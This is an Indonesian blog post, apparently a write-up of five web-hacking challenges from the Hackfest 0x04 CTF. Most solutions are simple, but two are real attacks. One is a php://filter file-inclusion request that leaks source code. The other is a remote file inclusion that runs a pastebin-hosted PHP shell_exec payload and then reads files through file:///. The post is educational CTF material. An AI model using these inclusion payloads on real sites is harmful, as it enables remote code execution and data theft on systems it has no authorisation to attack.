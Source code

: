 ```yaml
---
date: 2021-04-01T20:40:20+07:00
title: "Writeup Kualifikasi CTF Hackfest 0x04 Web Hacking"
slug: "writeup-kualifikasi-ctf-hackfest-0x04-web-hacking"
tags: [
    "ctf",
    "hackfest",
    "writeup"
]
description: "WriteUp saya dalam acara CTF Hackfest Cyber Community Universitas Gunadarma (CCUG)."
---
```


Hackfest merupakan acara yang diselenggarakan oleh Cyber Community Unversitas Gunadarma (CCUG) untuk merekrut anggota baru untuk masuk ke tim mereka. Kebetulan saya mengikuti Hackfest 0x04. Berikut ini adalah writeup saya dalam menjawab soal-soal CTF Hackfest 0x04. Akan tetapi tidak semua writeup saya tulis, hanya kategori Web Hacking saja 😸

<details>
<summary>Daftar Isi    </summary>

- [Bayi IE](#bayi-ie)
- [Where Are You Now?](#where-are-you-now)
- [eRFI Minta Tolong](#erfi-minta-tolong)
- [Bayi Kepala](#bayi-kepala)
- [Bayi Robot](#bayi-robot)

</details>

### Bayi IE
```
Ezz Parah Gak Usah Nanya (1)
http://ccug.my.id:22121/
Author: Ikhari
```
Saya membuka URL yang disediakan di soal, didapatkan tampilan seperti ini:

![Tampilan Web](Bayi_IE.png)

Setelah itu, saya mencoba melihat page source dengan cara menekan CTRL + U. Didapatkan 1/3 dari flag seperti ini:

![Source code](Bayi_IE_2.png)

Karena itu masih 1/3 bagian alias belum penuh, maka saya memutuskan untuk mencari lagi. Saya mencoba melihat file-file yang dimasukkan ke sini, yaitu semua css dan js. Lalu saya menemukan flag ke 2/3 di dalam file vegas.min.js

![vegas.min.js](Bayi_IE_3.png)

Saya juga menemukan flag ke 3/3 di dalam file templatemo-file.css

![templatemo-file.css](Bayi_IE_4.png)

Sehingga, flagnya dapat digabungkan dan dihasilkan:

`hackfest{IE_AdAlaH_Hal_PaLiNg_pEnTing_DAlaM_menCARI_iNfo}`

### Where Are You Now?
```
Hehehe boi
http://ccug.my.id:20000/
Author: aldo
```
Saya membuka URL yang disediakan di soal, didapatkan tampilan seperti ini:

![Tampilan awal](Where_Are_You_Now.png)

Saya membuka menu Flag, didapatkan tampilan seperti ini:

![Halaman Flag](Where_Are_You_Now_2.png)

Lalu, saya melihat URLnya, didapatkan URL seperti ini:

http://ccug.my.id:20000/index.php?page=flag.php

Saya berasumsi bahwa terdapat celah di bagian "page=", yang mana bagian method get tersebut akan memasukkan file php sesuai dengan nama yang dimasukkan di URL. Sehingga, saya mencoba memasukkan PHP Wrapper menjadi seperti ini:

http://ccug.my.id:20000/index.php?page=php://filter/convert.base64-encode/resource=flag.php

Didapatkan hasil seperti ini:

![Source flag.php tapi dihash base64](Where_Are_You_Now_3.png)

Karena masih menggunakan base64, akhirnya saya membuat script Python sederhana untuk menerjemahkan base64 tersebut:

![Script Python3](Where_Are_You_Now_4.png)

Jalankan scriptnya dan dapat deh flagnya:

![Output](Where_Are_You_Now_5.png)

`hackfest{tau_kan_harus_diapain_nih_flag?_ya_disubmit_lah:)}`

### eRFI Minta Tolong
```
Flag jauh dari apa yang kamu liat:*
http://ccug.my.id:20001/
Author: aldo
```
Saya membuka URL yang disediakan di soal, didapatkan tampilan seperti ini:

![Tampilan awal](eRFI_Minta_Tolong.png)

Saya mencoba cara yang sama seperti soal "Where Are You Now?", dan didapatkan hasil seperti ini:

![Output](eRFI_Minta_Tolong_2.png)

Karena bukan itu flagnya, maka saya mencoba cara lain, yaitu dengan cara eksekusi shell. Kenapa eksekusi shell? Karena di soalnya judulnya 'RFI' atau _Remote File Inclusion_, singkatnya RFI ini bisa membuat penyerang mengakses server korbannya. Saya membuat script php sederhana untuk eksekusi shell, menggunakan pastebin:
```
<pre>

<?php

echo shell_exec("ls /");

?>

</pre>
```

Setelah itu link raw dari pastebin saya masukkan sebagai parameter pada method "page="

http://ccug.my.id:20001/index.php?page=https://pastebin.com/raw/sju0u1WZ

Didapatkan tampilan seperti ini, di mana ini adalah list direktori dari root "/":

![Direktori Root](eRFI_Minta_Tolong_3.png)

Di sana terdapat file flagnya, sekarang tinggal dibaca menggunakan file wrapper yang dimasukkan sebagai parameter juga.

http://ccug.my.id:20001/index.php?page=file:///1Ni_fL4g_eUy.txt

Didapatkan flagnya:

`hackfest{widihhh_mantep_euy_tau_aja_ada_disini}`

### Bayi Kepala
```
Ezz Parah Gak Usah Nanya (2)
http://ccug.my.id:22122/
Author: Ikhari
```
Saya mencoba mengakses url di soal menggunakan API Client Insomnia, lalu memeriksa bagian headersnya. Dan ditemukan flagnya.

![Insomnia](Bayi_Kepala.png)

`hackfest{YOU_EXPECTED_FLAG_!_BUT_IT_WAS_ME_DIO_!!!}`

### Bayi Robot
```
Ezz Parah Gak Usah Nanya (3)
http://ccug.my.id:22123/
Author: Ikhari
```
Saya mencoba mengakses url di soal lalu membuka robots.txt, dan didapatkan hasil seperti ini:

![Robots.txt](Bayi_Robot.png)

Setelah itu, saya membuka satu-satu filenya. Dan pada file NoRobotHere.txt saya mendapatkan kode base64:

![NoRobotHere.txt](Bayi_Robot_2.png)

Lalu encode base64 tersebut dan didapatkan flagnya:

`hackfest{FlaG_HAck_FeSt_0xo4}`

Sekian writeup dari saya, semoga bisa menambah ilmu teman-teman semua 😁
